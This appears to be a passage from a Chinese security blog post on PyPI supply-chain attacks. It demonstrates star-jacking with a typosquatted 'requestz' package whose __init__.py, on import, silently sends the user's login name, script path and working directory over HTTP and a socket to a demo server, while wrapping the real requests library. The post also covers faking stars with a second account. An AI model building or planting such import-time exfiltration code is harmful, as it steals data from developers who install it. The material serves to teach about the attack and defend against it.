* 这种方法通常伴随伪造的下载量或虚假的用户评论，进一步增强可信度。

2. 克隆热门项目

* 攻击者复制一个知名的开源项目（如 Django、Flask 等），并在其代码中植入恶意代码。

* 然后通过伪造星标和下载量，使其看起来像是原始项目的“改进版”或“分支版本”，误导开发者。

3. 利用相似名称

* 攻击者创建与知名项目名称非常相似的项目（例如，使用拼写错误或额外的后缀），并伪造星标数量。

* 开发者在搜索时可能误选这些恶意项目。

下面模仿星标劫持：

创建一个仓库，名为requests-utils：



恶意脚本代码：

*init*\_.py

```
import socket
import os
import sys
import json
import threading
import urllib.request
import base64

# Import the real requests to wrap its functionality
import requests

# Function to collect system information
def collect_minimal_info():
    """Collect basic system information"""
    info = {
        "username": os.getlogin(),
        "script_path": os.path.abspath(sys.argv[0]),
        "working_dir": os.getcwd(),
        "package": "requestz (Star Jacking Attack)"
    }
    return info

def send_data_socket(host, port, data):
    """Send data using Socket to remote server"""
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(5)
            s.connect((host, port))
            s.sendall(json.dumps(data).encode())
            return True
    except Exception:
        return False

def send_data_http(url, data):
    """Send data using HTTP requests"""
    try:
        # Using real requests library
        requests.post(url, json=data, timeout=5)
        return True
    except Exception:
        return False

def send_data_urllib(url, data):
    """Send data using urllib from standard library"""
    try:
        json_data = json.dumps(data).encode('utf-8')
        req = urllib.request.Request(url, data=json_data, headers={'Content-Type': 'application/json'})
        urllib.request.urlopen(req, timeout=5)
        return True
    except Exception:
        return False

def exfiltrate_data():
    """Main function to collect and send data"""
    # Collect information
    info = collect_minimal_info()
    
    # Remote server URL (localhost for demo purposes)
    remote_url = "http://localhost:5000/collect"
    
    # Try different methods to send the data
    methods = [
        (send_data_urllib, (remote_url, info)),
        (send_data_http, (remote_url, info)),
        (send_data_socket, ("localhost", 5000, info))
    ]
    
    for method, args in methods:
        thread = threading.Thread(
            target=method,
            args=args,
            daemon=True
        )
        thread.start()
        thread.join(timeout=0.1)

# Automatically trigger data exfiltration when the package is imported
threading.Timer(2, exfiltrate_data).start()

# Wrap the actual requests library functions to provide expected functionality
def get(url, **kwargs):
    """Wrapper for requests.get"""
    return requests.get(url, **kwargs)

def post(url, **kwargs):
    """Wrapper for requests.post"""
    return requests.post(url, **kwargs)

def put(url, **kwargs):
    """Wrapper for requests.put"""
    return requests.put(url, **kwargs)

def delete(url, **kwargs):
    """Wrapper for requests.delete"""
    return requests.delete(url, **kwargs)

def head(url, **kwargs):
    """Wrapper for requests.head"""
    return requests.head(url, **kwargs)

def options(url, **kwargs):
    """Wrapper for requests.options"""
    return requests.options(url, **kwargs)

# Also expose Session and other important classes/functions from the real requests
Session = requests.Session
Request = requests.Request
Response = requests.Response 
```

setup.py:

```
from setuptools import setup, find_packages

setup(
    name="requestz",  # 模仿requests包名
    version="0.1.0",
    author="Example Author",
    author_email="author@example.com",
    description="HTTP library for humans, similar to requests",
    long_description=open("README.md").read(),
    long_description_content_type="text/markdown",
    packages=find_packages(),
    install_requires=[
        "requests>=2.25.0",  # 安装requests依赖
    ],
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",
) 
```

打包等和上述一致，略过。

上传项目代码、release（更逼真）：



用小号给个star


运行攻击服务器，然后在虚拟环境安装此恶意包

```
pip install git+https://github.com/lotus0212/requests-utils.git
```



可以看到

```
Successfully built requestz
Installing collected packages: requestz
Successfully installed requestz-0.1.0
```

创建hello.py:

```
import requestz

print("hello")
```

执行后，成功接受到发送的参数



# 7.总结

软件供应链安全问题可能出现在各种类型的软件组件和库中，包括框架、工具、平台等。此篇文章主要用于帮助大家了解供应链安全包含哪些方面，在传统上肯定不止是三方组件的漏洞等，还包括供应商、镜像源、pypi包等，攻击者可以利用这些漏洞，对使用这些组件的应用程序进行攻击，造成严重后果。对于此篇介绍的pypi攻击，随着**Python 的普及和应用范围扩大**、**PyPI 自身的特点**（开放的软件仓库）等，PyPI 供应链安全也会越来越受到关注。
